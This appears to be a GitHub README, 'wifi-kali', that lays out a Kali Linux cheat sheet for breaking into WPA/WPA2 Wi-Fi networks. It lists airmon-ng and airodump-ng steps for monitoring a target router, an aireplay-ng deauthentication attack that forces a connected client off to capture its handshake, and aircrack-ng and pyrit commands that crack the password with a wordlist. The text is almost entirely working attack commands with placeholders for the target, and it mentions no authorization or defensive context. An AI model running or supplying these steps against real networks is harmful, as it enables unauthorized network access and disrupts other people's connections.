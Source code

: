 # wifi-kali

http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

## Extract handshake
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -c 1,1 --bssid {target_router_bssid} -w /mnt/mon0 wlan0mon
* aireplay-ng -0 2 -a {target_router_bssid} -c {connected_station_bssid} wlan0mon
* airmon-ng stop wlan0mon

## Crack password

### aircrack-ng
* aircrack-ng -a2 -b {target_router_bssid} -w /mnt/wordlist.txt /mnt/*.cap

### pyrit
* pyrit -r mon0-01.cap analyze
* pyrit -u sqlite:///mydb.db -i wordlist.txt import_passwords
* pyrit -u sqlite:///mydb.db -e {attacked_network_name} create_essid
* #pyrit eval
* pyrit -u sqlite:///mydb.db batch
